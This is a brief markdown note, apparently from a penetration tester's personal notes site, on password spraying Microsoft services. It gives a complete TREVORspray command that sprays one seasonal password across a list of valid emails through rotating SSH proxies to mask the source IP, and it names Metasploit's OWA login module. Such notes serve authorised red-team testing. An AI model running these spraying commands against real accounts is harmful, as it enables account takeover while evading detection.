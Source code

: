 ```yaml
---
description: >-
  A list of tools and resources that I use for password spraying Microsoft
  products.
---
```


# Spraying Microsoft

### Attacking Office365

A tool that I've had a large amount of success with is [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray):

```bash
./trevorspray.py -e /opt/trevorspray/log/valid_emails.txt -passwords 'Winter2021' --delay 1 --no-current-ip --ssh [SSH SERVERS] -k (KEY)
```

### Attacking OWA

Metasploit has a great module for attacking OWA:

```bash
auxiliary/scanner/http/owa_login
```

